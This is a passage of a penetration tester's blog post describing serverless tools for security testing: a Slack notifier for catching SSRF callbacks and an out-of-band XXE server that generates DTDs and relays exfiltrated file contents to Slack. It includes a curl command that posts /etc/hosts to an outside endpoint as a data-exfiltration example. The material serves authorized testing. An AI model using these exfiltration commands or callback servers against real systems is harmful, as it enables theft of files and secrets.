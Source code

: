 ### SSRF Slack Notifier
https://github.com/ropnop/serverless_toolkit/tree/master/ssrf_slack

This was my first and is probably my most used serverless function. When testing for SSRF previously, I was pointing to VPSs I controlled and running `tail -f /var/log/apache2/access.log` in an SSH window. I had to be watching the logs in near-real time, and I wanted a way to just be alerted if a request came in.

It's a perfect use-case for serverless. I [created a Slack app](https://api.slack.com/slack-apps) for a private workspace I'm in and generated some webhooks.

This function takes in the `SLACK_WEBHOOK` environment variable and when deployed, will spit out the entire contents of any requests it receives to a Slack message. 

*Note: never store anything secret (like a Slack Webhook URL) in source code or environment variables when using the free version of Now. All of that is publicly viewable. Instead use [now secrets](https://zeit.co/docs/v1/features/env-and-secrets)*

```
$ now secret add slack-webhook-ssrf https://hooks.slack.com/services/YOUR_WEBHOOK_HERE
$ now -e SLACK_WEBHOOK=@slack-webhook-ssrf --public
```

This lets me generate and insert the URL anywhere, and if anything ever triggers it I get notified. This is also useful for data exfiltration as I can POST arbitrary files to the endpoint and they end up in my Slack log:

```
$ curl -X POST --data-binary "@/etc/hosts" https://ssrf-slack-notify-bxxxxxxxxx.now.sh
```

![ssrf_data](/images/2018/11/ssrf_hosts_file.png)

### OOB XXE Server
https://github.com/ropnop/serverless_toolkit/tree/master/xxe_server

This example is based off a similar project I wrote a while ago, [xxetimes](https://github.com/ropnop/xxetimes). After discovering an OOB XXE vulnerability, exploitation is usually a very manual process that includes spinning up at least one listening server, customizing DTD files and parsing data dump output.

This serverless function provides two main functionalities to help:

 * Template generation and serving up of DTD files
 * Parsing encoded data in GET params and posting to Slack

The server will dynamically generate DTD files for HTTP data exfiltration using parameter expansion when the `/dtd` endpoint is hit. It accepts a filename parameter to create the file entity. It also supports PHP Base64 encoding when the php parameter is sent. The parameter expansion will send data to the same server at the /data endpoint.

The /data endpoint simply decodes any incoming data as part of the URL query and dumps it to a Slack webhook.

For example, if I discovered an XXE vulnerability on a PHP site, I could POST the following XML using Burp:
![Burp_xxe](/images/2018/11/burp_xxe.png)

